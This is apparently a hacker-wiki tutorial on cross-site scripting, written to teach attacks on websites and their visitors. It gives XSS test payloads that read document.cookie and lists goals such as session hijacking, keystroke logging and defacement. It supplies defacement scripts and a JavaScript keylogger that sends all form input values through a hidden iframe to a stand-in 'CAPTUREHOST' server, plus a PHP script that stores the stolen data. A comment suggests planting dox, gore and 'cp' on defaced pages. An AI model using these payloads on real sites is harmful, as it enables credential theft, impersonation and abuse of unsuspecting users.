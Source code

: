 Cross site scripting (or XSS) is a method of exploiting a website that does not validate user supplied input or sanitize output. Web servers that fail to do so will allow you to run arbitrary javascript on an end users browser.

## Entrypoints ##

XSS entrypoints are usually found in webforms & querystrings. You can test for the existence of xss by using the following string.

```<script>alert(document.cookie);</script>```

You also may be able to include javascript embedded in a flash object, or an image like so:
```<img src="javascript:alert(document,cookie);" />```

But this varies between browsers.
Another way is like this
```<a href="javascript:alert(document.cookie);">link</a>```

But this requires your target to click a link

## Things To Do ##


1. Hijack user sessions/cookies

  * Since user session ID and occasionally usernames/passwords are stored in cookies, you can steal cookie data to impersonate a user by either finding their uname/pass or using their server session ID.
1. Log Keystrokes

  * You can write some code in javascript to send data via ajax/iframes when a user presses a key.
1. Deface pages

  * If the xss exploit you've discovered is saved into a database and redisplayed to other users, you can deface the page by overlaying content.
Remember to always read up on the latest security news. Not long ago, someone figured how to perform an XSS attack _from a motherfucking IP phone_. How? Simple. When you start an IP phone call, your phone or software sends a caller ID. Most IP phone exchange servers log these caller IDs and let you display the call log on a web browser. The caller ID field on most IP telephony protocols (such as H.323 and SIP) is sent as text and saved into a database without validation, because people only send phone numbers on the caller ID field amirite? Well... someone wrote an IP phone program that could send Javascript code on the caller ID field, so that when the admin displayed the phone call log, the browser would run the Javascript! Once you can run Javascript on a browser, you have a platform from which you can launch all the attacks mentioned here and more.

## Sample Code ##

```//---Javascript
//Overlay a black background with LOL in big white text
html='<div style="position:absolute;top:0px;left:0px;z-index:99;width:100%;height:100%;background-color:black;"><h1 style="color:#fff;">LOLHAI</h1></div>';
document.write(html);```

```//---Javascript
//Change the content of <body>
html='<h1>LOLHAI</h1>';
window.document.body.innerHTML=html;```

```//---Javascript
//You can study the structure of a site and change the content for any element ID or tag name
html='<h1>LOLHAI</h1>';
document.getElementById('element_id').innerHTML = html;
document.getElementsByTagName('element_tag')[child].innerHTML = html;
//This is epic for trolling by inserting typos, disinformation, dox, gore, cp, etc```

```//---Javascript
//This is an example of a keylogger. There is also a php file on this article you can use to capture the data.
randVal = 'loldongs'+(Math.round((10000-5000) * Math.random() + 5000));
wp='<div style=":display:block;width:0;height:0;z-index:0;overflow:hidden;" id="'+randVal+'"></div>';
window.onload=function(){
        window.document.body.innerHTML='<div onkeyup="kl();">'+window.document.body.innerHTML+wp+'</div>';
}
function kl(){
        inp=document.getElementsByTagName('input');
        qs='';
        for(var i = 0; i < inp.length; i++){
                qs=qs+i+'_'+inp[i].name+'='+inp[i].value+'&';
        }
        cn=document.getElementById(randVal);
        kf='<iframe style="width:0;height:0;" src="http://CAPTUREHOST/capture.php?'+qs+'"></iframe>';
        cn.innerHTML=kf;
}```

```//---capture.php
//This will catch all data passed as querystrings and save them in a readable format with IP, referrer & timestamp 
<?php
        $dumpFile = "dump";
        $fh = fopen($dumpFile, 'a') or die("can't open file");
        fwrite($fh, date("m/d/y_g:i:s").'|'.$_SERVER['REMOTE_ADDR'].'|'.$_SERVER['HTTP_REFERER'].'|');
        foreach($_GET as $qs => $val){
                fwrite($fh, $qs."=".$val.'|');
        }
        fwrite($fh, "\n");
        fclose($fh);
?>```

{{tutorials}}

